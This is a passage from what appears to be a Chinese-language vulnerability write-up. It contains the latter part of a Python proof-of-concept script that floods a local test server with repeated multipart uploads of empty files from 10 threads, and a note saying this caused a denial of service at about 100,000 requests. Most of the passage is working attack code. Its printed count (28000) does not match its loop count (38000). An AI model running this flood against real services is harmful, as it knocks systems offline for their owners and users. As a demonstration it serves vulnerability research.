 ```
    }

    payload_template = (
        f"--{boundary}\r\n"
        f"Content-Disposition: form-data; name=\"file\"; filename=\"file_{generate_random_string(5)}.txt\"\r\n"
        f"Content-Type: text/plain\r\n"
        f"\r\n"
        f"\r\n"
    )

    payload = ''.join(payload_template for _ in range(1))

    end_payload = f"--{boundary}--\r\n"

    data = payload + end_payload

    for _ in range(38000):
        try:
            print(threading.current_thread().name + ":第" + str(_) + "次")
            response = requests.post(url, headers=headers, data=data,verify=False)
        except:
            pass

    print(f"Thread {threading.current_thread().name}: Sent 28000 requests to {url}")

if __name__ == "__main__":
    url = "http://localhost:8080/DawnT0wn"
    num_threads = 10

    # 创建线程池
    with concurrent.futures.ThreadPoolExecutor() as executor:
        # 启动线程
        futures = [executor.submit(generate_request, url, generate_random_string(1)) for _ in range(num_threads)]

        # 等待所有线程执行完成
        for future in concurrent.futures.as_completed(futures):
            try:
                future.result()
            except Exception as e:
                print(f"An error occurred: {e}")

    print("All threads have finished.")
```

创建了10个线程，反复的上传空文件，大约10w次的时候就造成了拒绝服务攻击

![image-20230720143024184](images/4.png)
